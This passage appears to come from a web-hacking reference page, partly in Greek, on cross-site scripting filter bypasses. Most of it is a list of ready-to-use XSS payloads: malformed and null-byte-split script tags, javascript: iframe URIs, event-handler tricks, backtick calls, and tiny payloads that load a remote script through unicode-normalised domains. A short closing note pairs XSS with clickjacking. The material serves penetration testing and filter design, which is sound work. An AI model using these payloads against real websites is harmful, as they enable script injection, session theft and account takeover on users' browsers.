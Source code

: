 ```javascript

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```
### Length bypass (small XSSs)

{% hint style="info" %}
**Περισσότερα μικρά XSS για διάφορα περιβάλλοντα** payload [**μπορείτε να τα βρείτε εδώ**](https://github.com/terjanq/Tiny-XSS-Payloads) και [**εδώ**](https://tinyxss.terjanq.me).
{% endhint %}
```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```
The last one is using 2 unicode characters which expands to 5: telsr\
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).\
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).

### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](../clickjacking.md#xss-clickjacking) (if the page is vulnerable).
